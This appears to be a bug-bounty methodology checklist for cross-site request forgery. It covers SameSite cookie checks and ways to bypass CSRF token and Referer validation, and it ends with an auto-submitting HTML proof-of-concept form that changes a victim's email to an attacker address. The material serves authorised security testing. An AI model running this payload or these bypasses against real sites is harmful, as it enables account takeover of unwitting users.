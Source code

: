 ## CSRF Methodology

The first thing to check in a CSRF attack is the security headers on the session cookie.
- [ ] `SameSite=Strict` - CSRF Not Possible
- [ ] `SameSite=LAX` - CSRF Only Possible on GET Request
- [x] `SameSite=NONE` - CSRF Possible

<br/>
<br/>

**[CSRF Token Bypasses](https://github.com/JoshMorrison99/Bug-Bounty/blob/main/CSRF/CSRF%20Token%20Bypasses.md)**<br/>
- [ ] Change single character to check if CSRF token is being validated or not
- [ ] Change request method from POST to GET
- [ ] Remove value in CSRF token
- [ ] Remove CSRF token completely
- [ ] Send a valid CSRF token from other user

<br/>
<br/>

**[Referer Bypasses](https://github.com/JoshMorrison99/Bug-Bounty/blob/main/CSRF/Referer%20Bypasses.md)**<br/>
- [ ] Check for bad regex
- [ ] Check for referer removed

<br/>
<br/>

**General PoC**
```html
<html>
    <body>
        <form action="https://vulnerable-website.com/email/change" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
            <input type="hidden" name="csrf" value="WfF1szMUHhiokx9AHOfjRkE" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```

